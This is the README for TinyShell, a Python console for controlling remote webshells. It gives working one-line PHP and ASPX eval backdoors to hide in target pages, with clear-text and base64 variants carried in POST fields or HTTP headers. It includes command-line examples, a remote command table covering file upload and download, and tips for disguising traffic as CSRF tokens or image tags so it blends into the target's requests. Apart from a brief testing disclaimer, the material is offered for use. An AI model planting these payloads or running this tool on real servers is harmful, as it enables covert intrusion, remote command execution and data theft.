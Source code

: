 # TinyShell Web Shell Framework

Author: Joe Vest

Copyright 2015 - TinyShell

Written by: Joe Veat

Company: MINIS

DISCLAIMER: This is only for testing purposes and can only be used where strict consent has been given. Do not use this for illegal purposes.

Please read the LICENSE in LICENSE.md for the licensing information


```
___________ __               _________ __            __   __   
\__    ___/|__| ____ ___ __ /   _____/|  |__   ____ |  | |  |  
  |    |   |  |/    \   |  |\_____  \ |  |  \_/ __ \|  | |  |  
  |    |   |  |   |  \___  |/        \|   |  \  ___/|  |_|  |__
  |____|   |__|___|__/_____/_________/|___|__/\_____>____/____/

TinyShell - Webshell Console - Joe Vest - 2015

Usage: 
    tinyshell.py  --url=<url> --language=<language>
    tinyshell.py  --url=<url> --language=<language> [--mode=<traffic_mode>] [--useragent=<useragent] [--password=<password>] [-t=<timeout>]
    tinyshell.py (-h | --help) More Help and Default Settings

Options:
    -h --help                This Screen
    --url=<url>              URL source of webshell (http://localhost:80)
    --language=<language>    Webshell language (PHP, ASPX)
    --mode=<traffic_mode>    Traffic characteristics (clear, base64_post, base64_header) [default: clear]
    --useragent=<useragent>  User-Agent String to use [default: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; WOW64; Trident/6.0)]
    --password=<password>    POST REQUEST parameter or HTTP HEADER used as password [default: password]
    -t=<timeout>             HTTP Timout in seconds [default: 10]

```

TinyShell is a python command shell used to control and excute commands through HTTP requests to a webshell.  TinyShell acts as the interface to the remote webshells.  

TinyShell is based on it's companion project SubShell (https://bitbucket.org/jvest/subshell)

## New idea based on 

 - SubShell webshell framework (https://bitbucket.org/jvest/subshell)
 - China Chopper Webshell (https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html)

## Key Differences over SubShell

 - All functions passed as code to be evaluated on server
 - Reduces server side code to 1 line
 - New 'shell' code can be hidden on any page

## Python Dependencies
 
 - refer to requirements.txt

---------------------------------------------------------------

## Quick Start

1. Determine a payload
2. Determine a 'password'
3. Add payload to target page
4. Enjoy

Example:

Target Language: PHP
Target URL: http://www.server.com/index.php
Desired Mode: base64_post
Password Desired: token

```
<?php @eval(base64_decode($_POST['token']));?>
Payload:
```

TinyShell Command Line:

```
python tinyshell.py --url=http://www.server.com/index.php --language=php --password=token --mode=base64_post

``` 

---------------------------------------------------------------

## TinyShell Console Reference 

Interaction with a remote 'shell' using subshell is similar to a non-interactive shell.  Non-interactive commands can be submitted and the results displayed.  

If an interactive command is submitted, the command will not return.  Command will display a timeout error.  This is an HTTP timeout and not an error of whether the command executed or not.

| Command       | Description                                                                                                         | Example
|---------------|---------------------------------------------------------------------------------------------------------------------|--------------------------------------
|cd             | change directory                                                                                                    | cd c:\temp
|command        | Optional command used to issue remote command.  If no other built in command matches, then this command is assumed. | command tasklist
|config         | Show current settings                                                                                               | config
|dir            | directory command                                                                                                   | dir c:\temp
|download       | download remote file.  Files stored in ./downloads.  The original file structure is created.                        | download c:\temp\myfile.txt
|exit           | exit command shell                                                                                                  | exit
|help           | Display help for commands                                                                                           | help
|history        | show command  history                                                                                               | history
|ls             | alias for dir                                                                                                       | ls c:\temp
|ps             | List processes                                                                                                      | ps
|pwd            | show current directory                                                                                              | pwd
|shell          | submit command to local shell                                                                                       | shell ifconfig 
|timeout        | display or set the command timeout setting in seconds                                                               | timeout 120
|upload         | upload file to remote server.                                                                                       | upload myfile.txt c:\windows\temp\myfile.txt

---------------------------------------------------------------

## Encoding Header Examples

Encoded headers are the wrapper used to define where the left and right boundry of a command's response.  This allows TinyShell to locate the result of a command in a response.

### Fake CSRF Token hidden in comment

NOTE: Theses headers are delivered to the server in a request.  Depending on the server's configuration some character such as ```< ... />``` may be blocked or identified as malicious.  

```python
rsp_header = '<!-- csrf_token='
rsp_footer = ' -->'
```

### Base64 IMG tag

```python
rsp_header = '<img src="data:image/gif base64'
rsp_footer = '"/>'
```

### Commandline Examples

#### Clear text POST parameter (password) used to deliver commands

python tinyshell.py --url=http://10.0.2.10/bricks/upload/uploads/s.php --language=php

#### Base64 Encoded POST Parameter (viewstate) used to deliver commands

python tinyshell.py --url=http://10.0.2.10/bricks/upload/uploads/s.php --language=php --password=viewstate --mode=base64_post

#### Base64 Encoded HTTP HEADER (PESSSION) used to deliver commands

python tinyshell.py --url=http://10.0.2.10/bricks/upload/uploads/s.php --language=php --password=psession --mode=base64_header

---------------------------------------------------------------

## Server Side Payloads

A server side payload is the sever side code tadded to a target page.  This code accepts command and retuns responses.  Adjust the "password" field to better blend into your target's HTTP parameter or headers.

# Clear Text POST parameter

Requests and Responses are delivered in clear text using HTTP POST

```php
<?php @eval($_POST['password']);?>
```

 ```aspx
 <%@ Page Language="Jscript"%><%eval(Request.Item["password"],"unsafe");%>

 ```

# Base64 Encoded POST parameter

Requests and Response are delivered using base64 encoded commands.  Results are delivered base64 encoded.

```php
<?php @eval(base64_decode($_POST['password']));?>
```

 ```aspx
 <%@ Page Language="Jscript"%><%eval(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String(Request.Item["password"])),"unsafe");%>

 ```

# Base64 Encoded HEADER parameter

Requests and Response are delivered using a base64 encoded HTTP Header.  Results are delivered base64 encoded.


```php
<?php @eval(base64_decode($_SERVER['HTTP_PSESSION']));?>

```

```aspx
 <%@ Page Language="Jscript"%><%eval(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String(Request.Headers["password"])),"unsafe");%>
```

